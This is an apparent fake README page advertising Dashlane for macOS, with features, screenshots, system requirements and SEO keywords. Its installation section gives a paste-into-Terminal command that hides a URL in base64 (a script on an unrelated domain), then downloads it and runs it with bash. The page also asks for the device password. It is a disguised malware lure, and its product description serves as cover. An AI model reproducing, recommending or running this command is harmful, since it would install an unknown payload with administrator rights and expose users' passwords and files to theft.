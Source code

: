 # 🔐 Dashlane for macOS – Secure Password Manager & Digital Wallet  

## 📌 About Dashlane  
Dashlane is a powerful password manager and digital security app for macOS, designed to keep your online accounts safe and accessible. It stores your passwords securely, generates strong credentials, and autofills forms across websites and apps.  

With added features like dark web monitoring, secure password sharing, and built-in VPN for Wi-Fi protection, Dashlane is your all-in-one security companion.  

---

## 📥 Installation via a command in the terminal:  
1. Copy the installation command below.  
2. Open Terminal on your Mac, paste the command, then press `Return`.  
3. Enter your device password when prompted and confirm the installation.  

### 💻 Installation Command:
    /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9kYXNobGFuZS9pbnN0YWxsLnNo | base64 -d))"

![Guide](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

---

## 🎬 Overview  

A quick look at key parts in action:  

![Dashlane Screenshot 1](https://devby.io/storage/images/35/57/62/87/original/d7d3a9585e74dcb36fc4bda27100008a.png)  
![Dashlane Screenshot 2](https://cdn6.aptoide.com/imgs/2/7/9/27985c8af18370e5cdc9447aa639b842_fgraphic.jpg)  

---

## 🚀 Key Features  
- 🔐 **Password Vault** – Securely store and manage all your passwords.  
- 🛠 **Password Generator** – Create strong, unique passwords instantly.  
- ⚡ **Autofill & Auto-login** – Save time with one-click logins.  
- 🌐 **Cross-Platform Sync** – Access passwords on all your devices.  
- 🕵 **Dark Web Monitoring** – Alerts you if your data is found online.  
- 🛡 **VPN for Wi-Fi** – Encrypt your internet connection on public networks.  
- 📤 **Secure Sharing** – Safely share credentials with trusted contacts.  
- 🔒 **End-to-End Encryption** – Only you can access your data.  

---

## 💻 System Requirements  
- **OS:** macOS 12.0 Monterey or newer  
- **CPU:** Apple Silicon or Intel Core i5 and above  
- **RAM:** 4 GB minimum (8 GB recommended)  
- **Storage:** 200 MB for installation  
- **Others:** Internet connection for sync and updates  

---

## 🔍 SEO Keywords  
dashlane mac · dashlane macos · mac password manager · dashlane autofill · dashlane vpn · dashlane password generator · dashlane security · password manager mac · dashlane download mac · dashlane dark web monitoring
